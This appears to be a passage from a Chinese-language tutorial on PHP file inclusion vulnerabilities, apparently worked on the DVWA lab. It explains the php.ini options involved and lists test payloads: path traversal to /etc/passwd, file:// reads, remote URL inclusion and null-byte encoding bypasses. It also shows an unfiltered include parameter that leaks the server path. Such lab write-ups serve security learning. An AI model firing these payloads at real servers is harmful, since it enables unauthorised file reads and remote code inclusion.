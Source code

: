 **2.php.ini设置**

allow_url_fopen=on (默认开启)

allow_url_include=on (默认关闭)

远程文件包含是因为开启了PHP配置中的allow_url_fopen选项(选项开启后，服务器允许包含一个远程的文件)。

###### 文件包含漏洞的一般特征

```
?page=a.PHP
?home=a.html
?file=content
```

###### 文件包含测试

1.通过多个 .../  让目录返回上一级，然后再加入目标目录

```
?file=../../../../../etc/passwd
?page=file:///etc/passwd
?home=main.cgi
?page=http://www.a.com/1.php
http://1.1.1.1/../../../../dir/file.txt
```

2.编码字符绕过过滤

```
1.可以使用多种编码方式进行绕过
2.%00嵌入任意位置
3. .的利用
```

``注意：服务器包含文件时，不管文件后缀是否是PHP，都会尝试当作PHP文件执行，如果文件内容确为PHP，则会正常执行并返回结果；如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。``

##### low

```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```

源码没有进行任何过滤。

```
?page=include.php/
```

[![rQXaVg.md.png](https://s3.ax1x.com/2020/12/16/rQXaVg.md.png)](https://imgchr.com/i/rQXaVg)

看报错信息，直接将网站的路径信息给我们暴露出来了：
